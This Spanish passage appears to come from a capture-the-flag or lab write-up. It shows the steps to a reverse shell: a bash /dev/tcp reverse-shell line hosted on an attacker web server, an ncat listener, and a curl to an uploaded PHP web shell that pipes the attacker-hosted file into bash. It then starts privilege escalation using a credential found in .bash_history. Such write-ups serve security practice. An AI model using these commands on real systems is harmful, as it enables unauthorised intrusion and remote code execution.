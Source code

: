 - **Primero**, creamos un archivo llamando `index.html` en el cual pondremos nuestra `revershell`

```java
❯ nano index.html
❯ cat index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/443 0>&1
```

- **Segundo**, iniciamos un servidor http en `python3`

```java
❯ python3 -m http.server 80
```
- **Tercero**, iniciamos `ncat` para recibir la shell

```java
❯ ncat -lvnp 443
```

- **Cuarto**, hacemos un curl

```java
❯ curl -s 'http://[IP-VICTIM]/cvs/shell.pdf.php?cmd=curl%20http://[IP-ATTACKER]|bash'
```

## Escalada de privilegios

--- 

Obtenemos la shell como usuario `www-data`

![20231109013157.png](20231109013157.png)

### Usuario www-data

Enumerando encontramos en `.bash_history`una credencial 

![20231109015245.png](20231109015245.png)
